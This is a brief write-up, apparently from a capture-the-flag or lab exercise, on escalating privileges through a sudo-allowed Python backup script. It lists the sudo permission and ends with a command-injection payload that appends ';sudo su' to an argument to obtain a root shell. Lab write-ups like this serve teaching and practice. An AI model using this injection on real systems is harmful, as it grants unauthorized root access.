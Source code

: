 
sudo -l

<img width="796" alt="image" src="https://user-images.githubusercontent.com/59768512/167270262-887ad0d2-eedc-48c9-a667-8a5d37d74742.png">

can run sudo /usr/bin/python3 /home/user/safe_backup.py with args

see safe_backup.py

<img width="870" alt="image" src="https://user-images.githubusercontent.com/59768512/167270179-3574d9be-a110-491c-8208-d4e76893d452.png">

command injection


--help to statisfy tar 
sudo /usr/bin/python3 /home/user/safe_backup.py -e "--help;sudo su"
